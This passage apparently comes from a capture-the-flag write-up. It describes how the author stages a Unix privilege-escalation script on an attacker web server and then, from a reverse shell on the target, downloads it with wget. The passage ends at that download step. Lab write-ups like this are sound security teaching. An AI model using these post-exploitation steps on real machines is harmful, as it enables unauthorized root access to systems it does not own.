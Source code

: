        <img class="img-fluid rounded z-depth-1" src="/assets/img/posts/2020-06-02-hackme-ctf-writeup/13-updated-shell.png">
    </div>
</div>

<br/>

### Privilege Escalation


The final step in this CTF was to escalate my user privilege to root. My first attempt was to run my favorite automated priv escalation script, also courtesy of the <a href="https://www.google.com/url?sa=t&amp;rct=j&amp;q=&amp;esrc=s&amp;source=web&amp;cd=1&amp;cad=rja&amp;uact=8&amp;ved=2ahUKEwikheDpypDlAhWhnOAKHTdMBVEQFjAAegQIBRAB&amp;url=http%3A%2F%2Fpentestmonkey.net%2Ftools%2Faudit%2Funix-privesc-check&amp;usg=AOvVaw0zKEIT3uLrcBFLsG1oZ63j">pentestmonkeys</a>. To get this script on the target, I uploaded it to my local attack machine webserver with the following command. 


```bash
$ cp unix-privesc-check /var/www/html
```

I started the apache2 web service with the following. 

```bash
$ service apache2 start
```

Then, I used wget in the target reverse shell to download the script to the target machine. 

```bash
$ wget http://192.168.8.128/unix-privesc-check
```
